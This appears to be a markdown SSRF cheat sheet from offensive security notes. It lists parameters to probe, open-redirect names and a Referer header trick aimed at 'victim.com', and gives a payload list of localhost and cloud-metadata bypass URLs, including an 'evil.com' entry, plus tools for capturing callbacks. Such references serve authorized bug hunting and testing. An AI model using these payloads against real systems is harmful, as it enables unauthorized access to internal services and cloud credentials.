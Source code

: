 ```yaml
---
title: SSRF
description: Server side request forgery
---
```

## Exploit
### Finding ssrf
#### URL parameters
```url
url=
targetUrl=
requestUrl=
path=
```

#### API, webhooks
Look for developer portal, e.g. `developer.example.com`, `example.com/developer`

#### Open redirects
Find open redirects and chain SSRF.
```url
go
return
r_url
returnUrl
returnUri
locationUrl
goTo
return_url
return_uri
ref=
referrer=
backUrl
returnTo
successUrl

```

#### Referer header
Simply set Referer: `https://www.yourdomain.com` and start logging requests via your own private collaborator server.
```http
GET / HTTP/1.1
Host: victim.com
Referer: https://www.yourdomain.com
```

#### PDF generators
[Hunting for SSRF Bugs in PDF Generator](https://www.blackhillsinfosec.com/hunting-for-ssrf-bugs-in-pdf-generators/)

### Payload
```url
http://127.0.0.1:80
http://0.0.0.0:80
http://localhost:80
http://[::]:80/
http://spoofed.burpcollaborator.net
http://localtest.me
http://customer1.app.localhost.my.company.127.0.0.1.nip.io
http://mail.ebc.apple.com redirect to 127.0.0.6 == localhost
http://bugbounty.dod.network redirect to 127.0.0.2 == localhost
http://127.127.127.127
http://2130706433/ = http://127.0.0.1
http://[0:0:0:0:0:ffff:127.0.0.1]
localhost:+11211aaa
http://0/
http://1.1.1.1 &@2.2.2.2# @3.3.3.3/
http://127.1.1.1:80\@127.2.2.2:80/
http://127.1.1.1:80\@@127.2.2.2:80/
http://127.1.1.1:80:\@@127.2.2.2:80/
http://127.1.1.1:80#\@127.2.2.2:80/
http://169.254.169.254
0://evil.com:80;http://google.com:80

```
### Tools
#### Capturing incoming requests
- [Ngrok](https://ngrok.com/)
- [Localhost.run](http://localhost.run/)
- [LocalXpose](https://exploit-notes.hdks.org/exploit/web/security-risk/ssrf/#localxpose)
- [Pastebin]([https://pastebin.com/](https://pastebin.com/))
- [Interactsh](https://exploit-notes.hdks.org/exploit/web/security-risk/ssrf/#interactsh)